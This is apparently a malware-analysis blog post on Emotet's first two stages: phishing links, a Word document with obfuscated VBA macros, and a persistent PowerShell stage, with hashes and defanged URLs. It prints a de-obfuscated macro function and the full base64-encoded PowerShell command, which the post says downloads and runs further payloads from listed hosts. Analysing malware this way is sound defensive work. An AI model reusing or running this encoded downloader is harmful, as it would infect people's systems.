


This is Part 1 of Emotet malware analysis I'm planning to post. It covers phases 1 and 2 of the attack, specifically phishing and establishing persistence in the infected system. Emotet is spread via phishing emails containing malicious links or attachments, and targets everyone (individuals, companies and governments).

## Phase 1. Malicious email and document.

First phase of the attack starts with a Phishing email. Usually subject, layout, attachments and links are modified periodically by attackers. In this article I'm going to analyze [this sample from VirusTotal](https://www.virustotal.com/#/file/f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c/detection "Emotet's attachment sample").

[ {:.post_image} ](../img/emotet_malware/virustotal_sample.jpg)

One of Emotet's characteristics is constantly changing content of the phishing emails. Usually these contain a malicious link or attachment. This article covers the sample which was spread using via following links:

|URL|
|---|
|hxxps://www.tenderheartfoundation.org/knqimf/muwcu-xh8fa-vnewt/|
|hxxp://clyckmedia.com/clientes/ylhq8-zg1ue-iibdnyco/|
|hxxp://noithathopehome.com/8brl9if/hldd-m2v2fy-xavkpbbl/|
|hxxp://cllcanada.ca/2010/lmef-jmlr1n-ftkktgp/|
|hxxp://www.smilefy.com/it3fqqo/rnk6-9mm14-fcnp.view/|
|hxxp://cadsupportplus.com/assets/nwi2z-20bew-ffuwbfmt/|
|hxxp://www.sdhjesov.cz/wordpress/papcc-koe6n-lsric.view/|
|hxxp://bigkidneys.com/42QQXOURJ/gf1lm-hmr0c-lnkcfak/|
|hxxp://compraventachocados.cl/css/hgkhx-lin1b-zjkebwycv/|
|hxxp://cruelacid.com/icon/bmza-8dlyf-jemlc/|
|hxxp://ecommercedefinitivo.com.br/cursos/ryyjt-tnxm7-byxukc/|
|hxxp://annual.fph.tu.ac.th/wp-content/uploads/ikvv-lt7rlt-bqcnmly/|
|hxxp://dbtools.com.br/mailer/ezsvr-mqo7i-zgysfrmwr/|
|hxxp://demu.hu/wp-content/2h2z2-errsh-sxwqgscp/|
|hxxp://georgekiser.com/test/z6uwt-r0459s-rqkv.view/|
|hxxp://wdl.usc.edu/wp-includes/zvlp-s69lox-wrkbb.view/|
|hxxp://dictionary.me/js/bbrj3-tq4eh-izxcuhnb/|
|hxxp://duncaninstallation.com/images/u32g-mdxys3-gjcwkz/|
|hxxp://devpro.ro/misc/3wa1-zykhgf-xcjqnfs/|

All URLs above, once accessed, drop a Microsoft Office Document with macros in it.

|Checksum|File type|File Size|
|---|---|---|
|f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c|MS Word Document|246KB (251904 bytes)|



### Analysis.

Based on the result we get by running `file` command against this sample, it looks like this document has 1 page and doesn't contain any words.

```bash
f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c: Composite Document File V2 Document, Little Endian, 
Os: Windows, Version 6.1, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, 
Create Time/Date: Mon Mar 11 21:32:00 2019, Last Saved Time/Date: Mon Mar 11 21:32:00 2019, Number of Pages: 1, 
Number of Words: 0, Number of Characters: 5, Security: 0
```

Using `Oletools` to get the list of document's objects, 3 macros elements have been found:

```bash
  7:        74 'Macros/PROJECTwm'
  8: M   70540 'Macros/VBA/S1ADDQ1A'
  9: M   14650 'Macros/VBA/YBB1wA'
 10:     49987 'Macros/VBA/_VBA_PROJECT'
 11:      1344 'Macros/VBA/__SRP_0'
 12:       110 'Macros/VBA/__SRP_1'
 13:       436 'Macros/VBA/__SRP_2'
 14:       187 'Macros/VBA/__SRP_3'
 15:       601 'Macros/VBA/dir'
 16: M    9719 'Macros/VBA/mA4QAX4'
 17:      4096 'WordDocument'
```

### Extraction. 

Objects 8, 9 and 16 contain Visual Basic code, thus of higher interest for further analysis.

|Object|Name|Checksum|Size|
|---|---|---|---|
|8|S1ADDQ1A|34ffc69ff37401b965b04fa4f3c1fbcdffab11fd2e34f9e17a8347b70922398b|44KB (44096 bytes)|
|9|YBB1wA|d51c137e3f591a275628e697d2fbb305cc3c630455480508184b45753608d973|8.8KB (8956 bytes)|
|16|mA4QAX4|d2e56d56ced7ed8de5f701a873086c8134e1311dd574a607a45023f38d5ecaf7|5.6KB (5671 bytes)|

Out of all extracted parts of the script, `mA4QAX4` is the _entry point_ and starts the execution once the document is opened. Whole VBS code is obfuscated, as seen in the image below.

[ {:.post_image} ](../img/emotet_malware/macros_entry.png)



All three parts are dependent on each other and have to be merged, for further analysis. You can find it [HERE](https://www.virustotal.com/gui/file/50536aaf9cc87b6cf5b3fcd1ef5c11f348737ef28f220872bcbdfb56813c68bc/detection "Merged version").

The call chain looks like this:

1. autoopen();
2. iQwUcAAU(param):
  - Creates **Win32_ProcessStartup** class;
  - Creates an object of the class by calling **Create** method;
  - Passes _param_ string as command argument, thus starting the execution;

Value of _param_ consists of concatenated results of following functions: `SQoBUAA`, `vDXBUQ`, `rDCAQQcA`, `pAADAADD`, `k1kGUAB`, `cAABQDw`. All these functions are similar in terms of logic and were easy to de-obfuscate. Below is the _clean_ version of `SQoBUAA`:

```bash
Function SQoBUAA()
On Error Resume Next
jkQBUx = "l -" + "nop" + " -e" + "n" + "c" + " JA" + "BHA" + "G" + "8Aa" + "wB" + "HA" + "E" + "M" + "AN" + "A" + "B" + "B" + "A" + "D" + "QA" + "PQ" + "A" + "oAC"
lBADQoU = "cAe" + "gBf" + "AC" + "cAK" + "w" + "An" + "AEE" + "AWg" + "AnA" + "CsA" + "Jw" + "Br" + "A" + "G8A" + "RAB"
tcoAAAAQ = "B" + "ACc" + "A" + "K" + "Q" + "A7A" + "CQ" + "AU" + "gBf" + "AEE" + "A" + "a" + "w" + "AxA" + "F8"
HAQUxA_ = "AQQ" + "BBA" + "D0" + "Abg" + "BlA" + "Hc" + "ALQ" + "BvA" + "GI" + "Aa" + "gBl" + "AG" + "MAd" + "A" + "AgA" + "E" + "4" + "A" + "Z" + "QB0" + "A" + "C" + "4A" + "VwB" + "lAG"
tUQokAA = "IA" + "Qw" + "Bs" + "AGk" + "AZQ" + "Bu" + "AH" + "Q" + "A" + "O" + "wA" + "kAG" + "k" + "AVQ" + "Bv" + "AF" + "8AR" + "ABB" + "AD" + "0" + "AK" + "AA" + "n" + "A" + "GgA"
cUAAoX = "d" + "AAn" + "ACs" + "AJw" + "B0" + "AH" + "A" + "AOg" + "A" + "vA" + "C8A" + "Yg" + "B" + "pA" + "G" + "U" + "A" + "ZAB" + "l" + "A" + "H" + "I" + "A" + "bQ" + "Bh"
AkQG_A = "A" + "Cc" + "AKw" + "An" + "AG" + "4AL" + "g" + "B" + "uAG" + "UAd" + "AA" + "vAG" + "wA" + "ZQB" + "zAG" + "wA" + "a" + "QBl"
SQoBUAA = jkQBUx + lBADQoU + tcoAAAAQ + HAQUxA_ + tUQokAA + cUAAoX + AkQG_A
End Function
```

## Phase 2. Persistent Powershell.

A base64 encoded powershell script is extracted and set to run at system's startup, by the document macros.

```powershell
powershell -nop -enc JABHAG8AawBHAEMANABBADQAPQAoACcAegBfACcAKwAnAEEAWgAnACsAJwBrAG8ARABBACcA
KQA7ACQAUgBfAEEAawAxAF8AQQBBAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGkAVQBvAF8ARABBAD0AKAA
nAGgAdAAnACsAJwB0AHAAOgAvAC8AYgBpAGUAZABlAHIAbQBhACcAKwAnAG4ALgBuAGUAdAAvAGwAZQBzAGwAaQBlAC8AbAAnACsAJwBMAC8AJwArACcAQABoAH
QAdABwADoALwAnACsAJwAvAG4AaQBzAHMAYQAnACsAJwBuAGIAYQAnACsAJwBjAGcAaQBhACcAKwAnAG4AZwAnACsAJwAuAGMAJwArACcAbwBtAC8AdwBwAC0AY
wBvACcAKwAnAG4AdABlAG4AdAAnACsAJwAvAHgAUgAnACsAJwAzAC8AJwArACcAQAAnACsAJwBoAHQAdAAnACsAJwBwADoALwAnACsAJwAvAGUAcQB1AGkAZABh
AGQAZABlAGcAZQBuAGUAcgAnACsAJwBvAC4AJwArACcAaQB6AHQAJwArACcAYQBjAGEAbABhAC4AdQAnACsAJwBuAGEAbQAuAG0AeAAvACcAKwAnAHcAcAAtAGE
AZABtAGkAbgAvACcAKwAnAFgAUABGAC8AQABoAHQAdABwADoALwAvAHcAdwB3AC4AJwArACcAegAnACsAJwBlAHMAdABlAHYAZQBuAHQAJwArACcAcwAuAGMAbw
AvAHcAcAAtACcAKwAnAGkAJwArACcAbgBjAGwAdQBkAGUAcwAvAEcAJwArACcASgBBACcAKwAnAG8ALwBAAGgAdAB0AHAAJwArACcAOgAvAC8AJwArACcAcwB0A
HkAJwArACcAbABpACcAKwAnAHMAaABsAGEAYgAuAHcAZQBiAHAAaQB4AGEAYgB5AHQAJwArACcAZQAnACsAJwAuAGMAJwArACcAbwBtAC8AdAAnACsAJwBoAGoA
bwB3AHIAawA1ACcAKwAnAGUALwA5AFUARwAvACcAKQAuAFMAcABsAGkAdAAoACcAQAAnACkAOwAkAHYAWgBBAEEAQgA0AD0AKAAnAFEAQwBBAEIAJwArACcAQgB
BAFUAJwApADsAJABKAFUAQQBrAEEAQQAgAD0AIAAoACcANAA4ACcAKwAnADYAJwApADsAJABGAGsAWgBBAEQAWgBVAD0AKAAnAGoAJwArACcANABfAEEAQQBCAE
EAJwApADsAJABtAFEAVQBrAHcARwA9ACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAKwAnAFwAJwArACQASgBVAEEAawBBAEEAKwAoACcALgBlACcAK
wAnAHgAZQAnACkAOwBmAG8AcgBlAGEAYwBoACgAJAByAEIAQQBCAEQAbwAgAGkAbgAgACQAaQBVAG8AXwBEAEEAKQB7AHQAcgB5AHsAJABSAF8AQQBrADEAXwBB
AEEALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACQAcgBCAEEAQgBEAG8ALAAgACQAbQBRAFUAawB3AEcAKQA7ACQAQwBYAGsAQQBBADQAQQA9ACgAJwBWADQ
AQgBBACcAKwAnAEEAawBBACcAKQA7AEkAZgAgACgAKABHAGUAdAAtAEkAdABlAG0AIAAkAG0AUQBVAGsAdwBHACkALgBsAGUAbgBnAHQAaAAgAC0AZwBlACAANA
AwADAAMAAwACkAIAB7AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgACQAbQBRAFUAawB3AEcAOwAkAG4ARABBAEEAdwBvAFgAPQAoACcAcwAnACsAJwBvAEEAeABBA
EQAJwApADsAYgByAGUAYQBrADsAfQB9AGMAYQB0AGMAaAB7AH0AfQAkAGMAdwBRAEEAQQBRAHgAPQAoACcARQBCAG8AYwAnACsAJwBBAEEAJwApADsA
```
Once decoded, several URLs pop up which drop phase 3 PE files.

[ {:.post_image} ](../img/emotet_malware/powershell_decoded.png)



Totally there are 5 different websites, hosting Emotet malware.

|URL|Dropped PE Checksum|Size|
|---|---|---|
|hxxp://biederman.net/leslie/lL/|e76900b9b50306564c415423e0eb28463722b0427186134ba301209b4ed2f440|180KB (183560 bytes)|
|hxxp://nissanbacgiang.com/wp-content/xR3/|5c2fbc0eaae6ccc8342c22325f0aca1e989beec8d578e3fe57722b807a46c773|180KB (183560 bytes)|
|hxxp://equidaddegenero.iztacala.unam.mx/wp-admin/XPF/|bc0d53d74f3f4ef286b4f4caeb8d8b77e32cc17b808dd0de5674842ad713dd72|180KB (183560 bytes)|
|hxxp://stylishlab.webpixabyte.com/thjowrk5e/9UG/|1c06da405051cfc9f68dbb404e338abb90a38db29f86f17e01487ac2c921c05d|251KB (256264 bytes)|
|hxxp://www.zestevents.co/wp-includes/GJAo/|403 HTTP Error|N/A|

## Conclusion.

Looks like the group behind Emotet, haven't focused on heavily obfuscating phase 1 and 2 scripts. Analysis of downloaded samples to follow in Part 2 of this article.